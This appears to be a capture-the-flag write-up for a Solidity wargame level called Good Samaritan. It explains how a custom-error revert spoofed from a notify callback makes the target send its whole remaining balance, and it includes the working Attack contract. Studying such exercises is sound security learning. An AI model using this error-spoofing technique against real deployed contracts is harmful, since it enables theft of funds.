

## Description
At the first call wallet.donate10(msg.sender) we get to coin.transfer(dest_, 10); and from there we get to INotifyable(dest_).notify(amount_);. 
We need to get an error keccak256(abi.encodeWithSignature("NotEnoughBalance()")) to make a second call to the function - wallet.transferRemainder(msg.sender);. There should be no error when calling it again. 
It is convenient that the amount is passed to INotifyable and you can immediately determine when the error is needed and when it is not.
```
contract Attack{
    GoodSamaritan public goodSamaritan;

    error NotEnoughBalance();
    
    constructor(address payable _goodSamaritan){
        goodSamaritan = GoodSamaritan(_goodSamaritan);
    }

    function attack() public {
        goodSamaritan.requestDonation();
    }

    function notify(uint256 amount) public {
        if(amount == 10){
            revert NotEnoughBalance();
        }
        
    }

}
```
I've learned a little bit about try\catch in solidity and I'm kind of used to custom errors, since I haven't used them before.


